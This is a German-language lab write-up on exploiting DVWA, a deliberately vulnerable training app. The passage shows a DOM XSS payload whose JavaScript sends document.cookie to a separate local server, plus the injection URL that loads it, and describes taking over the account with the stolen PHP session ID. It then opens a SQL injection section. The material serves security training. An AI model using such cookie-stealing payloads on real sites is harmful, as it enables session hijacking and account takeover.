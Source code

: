 #### Advanced
Da wir JavaScript-Tags einbinden können auf dem DOM, können wir auch einen anderen Server ansprechen. Dafür müssen wir zuerst einen Server starten. Wir können recht einfach mithilfe von Docker und HTTP-Server von Apache einen lokalen Server starten. Danach müssen wir nur noch eine JavaScript Datei hinzufügen, die folgenden Code ausführt:
```js
function getimg() {
    let img = document.createElement('img');
    img.src = 'http://127.0.0.1:9999/' + document.cookie;
    document.body.appendChild(img);
}

getimg();
```

Dieser Code erstellt ein Bild das von ausem Server geladen wird, mit den Cookies in der URL. Nun müssen wir nur noch die JavaScript Datei aufrüfen mit diesem URL:
http://127.0.0.1:4280/vulnerabilities/xss_d/?default=<script src="http://localhost:9999/a.js"></script>

Dadurch bekommen wir in den Logs die folgende Meldung:
![PHPSessionID](./imgs/xss-session-id.png)

Hier sehen wir auch die SessionID von PHP. Diese könnten wir nun Manuell in einem Browser setzen und den Account übernehmen.

### SQL
DVWA bietet auch hier verschiedene simulierte Arten von SQL-Injection an. Wir werden uns sowohl die klassische als auch die blinde SQL-Injection ansehen.

#### Erklärung

In DVWA gibt es ein simples Eingabefeld, welches Benutzern ermöglicht, eine Benutzer-ID einzugeben, um Informationen aus der Datenbank abzurufen.
